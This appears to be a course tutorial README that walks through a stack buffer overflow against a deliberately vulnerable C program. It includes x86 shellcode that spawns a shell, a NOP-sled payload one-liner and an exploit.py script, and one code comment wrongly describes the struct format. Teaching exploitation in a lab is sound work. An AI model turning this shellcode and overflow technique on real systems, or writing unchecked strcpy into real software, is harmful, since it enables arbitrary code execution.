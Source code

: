 # Buffer Overflows
This is a tutorial of Stack Buffer Overflow attacks. Credit to 'Smashing The Stack For Fun And Profit by Aleph One' 
for a detailed description of how to do this and Manuel Egele megele@bu.edu for creating the challenge 
(specifically providing prog5.c and the template for how to create exploit.py).

Author: Chase Clarke cfclarke@bu.edu


# prog5.c source
```
//compile with $ gcc prog5.c -o prog5

#include <stdio.h>
#include <string.h>
#include <stdlib.h>

//check the string passed from the command-line and print message accordingly. Vulnerable program


int processInput(char *input)
{		
		char buffer[512];

		strcpy(buffer,input);

		printf("Hello, what is the magic word?: You said %s\n",buffer);

		/* check if the string is equal to the super secret string */

		if (strcmp(buffer,"Please please pretty please!")==0)
		{
				fprintf(stdout,"Woaaaa, you got it!\n");
		}
		else
		{
				fprintf(stdout,"Epic Fail! Epic Fail! Epic Fail! Epic Fail!\n");
		}

		/* great success! */
		return 0;
}

//program accepts two parameters, there is a simple buffer overflow...

int main(int argc, char **argv)
{
		//check arguments
		if (argc<2)
		{
				fprintf(stdout,"Synopsis: vuln1 <magic word>\n\n");
				exit(1);
		}

		//process the input
		processInput(argv[1]);

		return 0;
}
  
```

# ---------- prog5 stack ------------------ #


Stack after 'processInput' is called but before stack pointer returns to main:


Towards BOTTOM of stack - TOP of memory

```
	.           .     
	.           .     
	.           .     

	|           |
	|           |
	  ---------       =
	|           |     |
	|           |     |
	  ---------    vars passed into program
	| *input    |     |
	|           |     |
	  ---------       =
	| return    |
	| addr.     |
	  --------- 
	| EBP       |
	|           |
	  ---------       
        | ESP       |     
	|           |     
	  ---------       =
	|           |     |
	|           |     |
	         	local variables
	|           |     |
	| buffer    |     |
	    		  
	.           .     
	.           .     
	.           .     
```


Towards TOP of stack - BOTTOM of memory




So ===> 512 bytes for buffer, 8 bytes for stack and base pointers, 
	and the final 4 bytes for overwriting the return address 
	to main.


Now that you have an idea of what the stack looks like and where the stored eip pointer (return address to main) 
is stored, you are going to need code that opens a new shell.
A shell script is assembly built to open a new shell encoded so python can print it correctly.

The shell code I used: (source - http://shell-storm.org/shellcode/files/shellcode-811.php)
	
	To make this as simple as possible, I used code from 'shell storm' instead of writing my own.

	* note that this shell code only works on Linux x86 systems. Find your systems code on shell-storm.org *
	* more on shell code: https://en.wikipedia.org/wiki/Shellcode *

	code used:	\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2
			\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80\x60\x4b\xff\xff



The last bit of information you need to collect is a new return address to replace the stored eip pointer.

You can get this using gdb:
	This is a tricky part because the address on the stack could change at any time if, for instance, any 
	environment variables change or the size of anything in your program changes.


Running gdb without the worry of environment variables:
	
	$ env - gdb prog5                    - clears most env vars. O/w stack cluttered and addresses constantly change

		(gdb) show env               - show remaining environment variables.
 
  		(gdb) unset env VARNAME      - remove one of the remaining set env vars
 
		(gdb) show env               - one last time to ensure all environment variables are removed


Helpful notes for using gdb:
	to run or rerun your program:
		(gdb) r "input_here"

	Set breakpoint:
		(gdb) b *main+offset - example: b *main+78

	delete breakpoint:
		(gdb) delete [breakpoints] [range...]


	print first 500 addresses stored on stack:
		(gdb) x/500xw $esp


	(gdb) info frame         - gives where your instruction pointer is at
	(gdb) info registers     - gives the values contained in all of your registers


Now that you have the program running correctly in gdb, you need to:
	
	Use the above notes to set a breakpoint the instruction before instructionProcess returns.
	
	Look at the stack at that time.
	
	Find an address that points directly back into your nops (no operation instruction in x86 assembly).

	Save that address and use it as your new return address to replace the stored eip pointer.


Taking into account all the above, you will need 524 bytes total. 520 for buffer and stored pointers, 4 for overwriting 
the return address.

But you have one more problem. What do you do with the extra space in the buffer that is not used by your shell code?
Easy, padd it with nops. These are no operation assembly instructions that tell the system to just go to the next line. 
Encoded as '\x90'

So ===>

You can now write a python script that prints out the shell code at the correct size, padded by the nops:
```
	`python -c 'print "\x90"*492 + "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89
		\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80\x60\x4b\xff\xff"'`
```

you can launch your new shell by running the prog5 executable with the above python script as the input:
```
	$ prog5 `python -c 'print "\x90"*492 + "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89
		\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80\x60\x4b\xff\xff"'`
```


The process of manually creating these python scripts can be tedious. 
To remedy this you can create a python file (exploit.py) shown below that requires:

	The length in bytes from the start of the buffer to the start of the return address.

	The return address you found with gdb.


// ---------- exploit.py source ------------------ //
```
#run with prog5 $(python exploit.py)

#!/usr/bin/env python

import sys, struct

#buf_len is the length of your input from the start of the buffer to the begging of the return address.
#ret_addr is the return address that brings you back into your NOPS. This will CHANGE regularly
buf_len = 520
ret_addr = 0xffff4ac0


#payload is the correctly presented shell code.
payload = "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80"


#combining all the above. '<' means little-endian in the struct.pack and 'L' signifies 64 bit OS.
buf = ('\x90' * (buf_len - len(payload))) + payload + struct.pack('<L', ret_addr)

#writing to the shell
sys.stdout.write(buf)
```
